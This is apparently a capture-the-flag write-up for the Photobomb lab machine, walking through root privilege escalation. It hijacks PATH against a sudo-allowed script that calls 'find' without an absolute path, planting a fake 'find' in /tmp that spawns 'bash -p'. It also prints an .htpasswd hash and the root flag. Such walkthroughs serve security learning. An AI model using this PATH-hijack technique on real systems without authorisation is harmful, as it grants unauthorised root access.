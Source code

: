 1)Let's see the sudo privileges that wizard has:
```
wizard@photobomb:~$ sudo -l
sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
```
------------------------------------------------------------

 wizard@photobomb:~/photobomb$ cat .htpasswd
    cat .htpasswd
    pH0t0:$apr1$dnyF00ZD$9PifZwUxL/J0BCS/wTShU1

--------------------------------------------------
```
2) Open the file  cleanup.sh: cat /opt/cleanup.sh
```bash
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
3) The script in question has a vulnerability. Indeed, the "find" utility is not defined with its absolute path, we could abuse it to get a root shell. Let's create a Bash script under the name of find in "/tmp". This will copy bash and assign it the setuid Root.

4)Print a list of current environment variables: env
```
SHELL=/bin/bash
PWD=/tmp
LOGNAME=wizard
HOME=/home/wizard
LANG=en_US.UTF-8
LS_COLORS=
INVOCATION_ID=524884486caa4677816304b64f18dca4
LESSCLOSE=/usr/bin/lesspipe %s %s
LESSOPEN=| /usr/bin/lesspipe %s
USER=wizard
SHLVL=2
JOURNAL_STREAM=9:32090
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
OLDPWD=/home/wizard/photobomb
_=/usr/bin/env
```
5) In the find file we write into it:  bash -p
6) We are interested in the PATH variable, let's rewrite it to spwan a root shell: 
```
sudo PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin /opt/cleanup.sh
```
7)  Then we navigate to the filesystem and get the root flag: 
```
whoami
root
pwd
/home/wizard/photobomb
cd /root
ls
root.txt
cat root.txt
8084adb6cdd9b7a889e36f37915e9496
```

